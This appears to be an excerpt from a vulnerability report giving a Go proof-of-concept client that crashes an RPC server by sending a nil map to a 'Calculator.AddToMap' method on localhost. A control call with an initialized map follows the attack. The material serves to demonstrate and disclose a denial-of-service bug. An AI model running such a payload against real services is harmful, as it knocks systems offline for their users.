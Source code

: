 ### PoC 1: Triggering Uninitialized Map Panic (Denial of Service)

This client code sends an RPC request where the `InputMap` field is intentionally left as its zero value (`nil`), causing the server to panic when it attempts to write to it.

```go
package main

import (
	"log"
	"net/rpc"
)

// Define the argument structure matching the server's RPC method
type AddToMapArgs struct {
	Key      string
	Value    int
	InputMap map[string]int // This will be nil by default
}

func main() {
	client, err := rpc.Dial("tcp", "localhost:1234")
	if err!= nil {
		log.Fatalf("dialing: %v", err)
	}
	defer client.Close()

	// --- PoC PAYLOAD 1: Send a nil map to trigger panic ---
	var nilMap AddToMapArgs // InputMap will be nil (zero value)
	nilMap.Key = "attacker_key"
	nilMap.Value = 999
	var reply1 bool
	log.Println("Attempting RPC call with nil map...")
	err = client.Call("Calculator.AddToMap", nilMap, &reply1)
	if err!= nil {
		// Server will likely panic and disconnect, leading to an RPC error on client
		log.Printf("RPC call with nil map failed (expected panic on server): %v", err)
	} else {
		log.Printf("RPC call with nil map succeeded unexpectedly: %v", reply1)
	}

	// --- CONTROL CASE: Send an initialized map (should succeed if server is still up) ---
	initializedMap := make(map[string]int)
	initializedMap["initial"] = 0
	safeArgs := AddToMapArgs{
		Key:      "safe_key",
		Value:    123,
		InputMap: initializedMap,
	}
	var reply2 bool
	log.Println("Attempting RPC call with initialized map...")
	err = client.Call("Calculator.AddToMap", safeArgs, &reply2)
	if err!= nil {
		log.Printf("RPC call with initialized map failed: %v", err)
	} else {
		log.Printf("RPC call with initialized map succeeded: %v", reply2)
	}
}
```

